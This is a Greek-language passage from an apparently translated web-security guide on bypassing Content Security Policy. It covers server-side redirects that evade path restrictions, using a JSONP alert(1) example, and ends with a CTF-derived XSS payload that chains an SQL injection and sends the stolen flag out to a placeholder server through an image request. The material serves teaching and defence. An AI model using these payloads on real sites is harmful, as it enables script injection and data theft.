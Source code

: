 Τι συμβαίνει όταν το CSP αντιμετωπίζει ανακατευθύνσεις στην πλευρά του διακομιστή; Αν η ανακατεύθυνση οδηγεί σε μια διαφορετική προέλευση που δεν επιτρέπεται, τότε θα αποτύχει.

Ωστόσο, σύμφωνα με την περιγραφή στο [CSP spec 4.2.2.3. Paths and Redirects](https://www.w3.org/TR/CSP2/#source-list-paths-and-redirects), αν η ανακατεύθυνση οδηγεί σε ένα διαφορετικό μονοπάτι, μπορεί να παρακάμψει τους αρχικούς περιορισμούς.

Εδώ υπάρχει ένα παράδειγμα:
```html
<!DOCTYPE html>
<html>
<head>
<meta http-equiv="Content-Security-Policy" content="script-src http://localhost:5555 https://www.google.com/a/b/c/d">
</head>
<body>
<div id=userContent>
<script src="https://https://www.google.com/test"></script>
<script src="https://https://www.google.com/a/test"></script>
<script src="http://localhost:5555/301"></script>
</div>
</body>
</html>
```
Εάν το CSP έχει οριστεί σε `https://www.google.com/a/b/c/d`, αφού λαμβάνεται υπόψη το μονοπάτι, τόσο τα σενάρια `/test` όσο και `/a/test` θα αποκλειστούν από το CSP.

Ωστόσο, το τελικό `http://localhost:5555/301` θα **ανακατευθυνθεί στην πλευρά του διακομιστή σε `https://www.google.com/complete/search?client=chrome&q=123&jsonp=alert(1)//`**. Καθώς πρόκειται για ανακατεύθυνση, το **μονοπάτι δεν λαμβάνεται υπόψη**, και το **σενάριο μπορεί να φορτωθεί**, παρακάμπτοντας έτσι τον περιορισμό του μονοπατιού.

Με αυτήν την ανακατεύθυνση, ακόμη και αν το μονοπάτι καθορίζεται πλήρως, θα παρακαμφθεί.

Συνεπώς, η καλύτερη λύση είναι να διασφαλιστεί ότι η ιστοσελίδα δεν έχει κενές ευκαιρίες ανακατεύθυνσης και ότι δεν υπάρχουν τομείς που μπορούν να εκμεταλλευτούν στους κανόνες του CSP.

### Παράκαμψη CSP με κρεμαστό σήμα

Διαβάστε [εδώ](../dangling-markup-html-scriptless-injection/) πώς.

### 'unsafe-inline'; img-src \*; μέσω XSS
```
default-src 'self' 'unsafe-inline'; img-src *;
```
`'unsafe-inline'` σημαίνει ότι μπορείτε να εκτελέσετε οποιοδήποτε script μέσα στον κώδικα (το XSS μπορεί να εκτελέσει κώδικα) και `img-src *` σημαίνει ότι μπορείτε να χρησιμοποιήσετε στην ιστοσελίδα οποιαδήποτε εικόνα από οποιαδήποτε πηγή.

Μπορείτε να παρακάμψετε αυτό το CSP με την εξυπακούοντα εξαγωγή δεδομένων μέσω εικόνων (σε αυτήν την περίπτωση το XSS καταχράται ένα CSRF όπου μια σελίδα προσβάσιμη από το bot περιέχει ένα SQLi, και εξάγει τη σημαία μέσω μιας εικόνας):
```javascript
<script>fetch('http://x-oracle-v0.nn9ed.ka0labs.org/admin/search/x%27%20union%20select%20flag%20from%20challenge%23').then(_=>_.text()).then(_=>new Image().src='http://PLAYER_SERVER/?'+_)</script>
```
From: [https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle](https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle)
